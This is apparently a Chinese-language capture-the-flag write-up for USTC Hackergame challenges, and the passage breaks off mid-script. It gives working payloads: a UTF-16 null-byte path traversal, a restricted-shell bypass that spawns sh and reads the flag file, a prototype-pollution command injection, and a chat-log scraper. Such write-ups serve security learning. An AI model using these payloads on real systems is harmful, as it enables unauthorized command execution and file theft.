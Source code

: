 # 不宽的宽字符  
首先wstring在内存中存的是UTF-16 LE,  
例如`foo` `(0066 006f 006f)`会被编码成 `(66 00 6f 00 6f 00)`  
但是转换的时候直接用了`(char*)wstring`  
所以char类型的filename就是`f\0o\0o\0you_cant_get_the_flag`  
在c中，以`\0`作为一个字符串的结束，那么在`\0`后加上的文件名后缀`you_cant_get_the_flag`没法被读取到  
那么要读取`Z:\\..\\theflag`就需要转换的结果为`5a 3a 5c 2e 2e 5c 09 68 65 66 6c 61 67 00`即`3a5a 2e5c 5c2e 6809 6665 616c 0067`即`Z:\\..\\theflag\0`  
其对应的UTF-16 LE表达就是`㩚⹜尮桴晥慬g`  

# PowerfulShell
从~中拆出l和s,从ls的执行结果中拆出h,然后执行sh就可以`cat ../flag`了
```sh
_1=~
_2=`${_1:2:1}${_1:7:1}`
${_1:7:1}${_2:9:1}
cat ../flag //flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_18d192fcde}
```

# Node.js is Web Scale  
阅读源码，注意到对象原型`__proto__`可以改掉，并且命令列表也是个对象  
那么令`__proto__.a`=`cat /flag`,然后访问`/exec?cmd=a`就可得到flag

# PaoluGPT  
第一问，写个爬虫把整个聊天记录爬下来  
首先在页面上通过`JSON.stringify([...document.querySelectorAll("body > div > div > ul>*")].map(e=>e.children[0].href))`获得聊天对应的url  
然后
```js
let addresses=[
  "https://chal01-zbi9w2vn.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=2365ab2d-6ffb-4370-b2fe-5898f15a95b6",
  "https://chal01-zbi9w2vn.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=ba217730-6efe-42b1-a795-d5974458b72d",
  "https://chal01-zbi9w2vn.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=3e7c43a2-6554-4b6f-8d60-0e121b015a35",
  "..."
];
(async function(){
  let result=[];
  let results=[];
  for(let a of addresses){
    console.log(`Processing ${a}`);
    let res=await fetch(a,{
      headers:{
        "Cookie":`[REDACTED]`
      }
    });
    let text=await res.text();
    result.push(text);
  }
  require("fs").writeFileSync("a.json",JSON.stringify(result,null,2));
})()
```
```js
let fs=require("fs");
let a=JSON.parse(fs.readFileSync("./a.json").toString());
let found=[];
for(let b of a){
```
